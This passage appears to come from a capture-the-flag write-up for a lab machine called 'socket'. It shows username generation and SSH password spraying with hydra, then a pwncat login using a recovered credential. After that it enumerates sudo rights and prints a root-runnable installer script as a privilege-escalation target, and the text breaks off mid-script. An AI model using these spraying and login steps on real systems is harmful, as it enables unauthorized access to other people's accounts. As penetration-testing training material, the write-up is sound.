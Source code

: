 If Thomas also has an OS account, it is likely that they use a username related to their actual name.
We'll be using [username-anarchy](https://github.com/urbanadventurer/username-anarchy) to generate usernames from the information we have, then we'll use [thc-hydra](https://github.com/vanhauser-thc/thc-hydra) to spray the password we found.

```bash
# bryan@red_team (bash)
username-anarchy Thomas Keller | tee usernames.wl
hydra -L usernames.wl -p 'denjanjade122566' ssh://$rhost
```
{:.nolineno}

We find that the username **`tkeller`** is valid with the password **`denjanjade122566`**.
We'll use these credentials to login over SSH with [PwnCat](https://pypi.org/project/pwncat-cs/).

```bash
# bryan@red_team (bash)
pwncat-cs "ssh://tkeller:denjanjade122566@$rhost"
```
{:.nolineno}

## Local Privilege Escalation

We begin by running a few generic commands to explore our current context.

```bash
# tkeller@socket (bash)
id # Member of unusual group: shared
sudo -l # Special sudo permissions...
```
{:.nolineno}
>
```
User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
```

It turns out, we can run a script at `/usr/local/sbin/build-installer.sh`{:.filepath} as root.
Let's check out this script and see how we might exploit it and elevate to root.

```bash
#!/bin/bash
if [ $# -ne 2 ] && [[ $1 != 'cleanup' ]]; then
  /usr/bin/echo "No enough arguments supplied"
  exit 1;
fi

action=$1
name=$2
ext=$(/usr/bin/echo $2 |/usr/bin/awk -F'.' '{ print $(NF) }')

if [[ -L $name ]];then
  /usr/bin/echo 'Symlinks are not allowed'
  exit 1;
fi

if [[ $action == 'build' ]]; then
  if [[ $ext == 'spec' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /home/svc/.local/bin/pyinstaller $name
    /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'make' ]]; then
  if [[ $ext == 'py' ]] ; then
```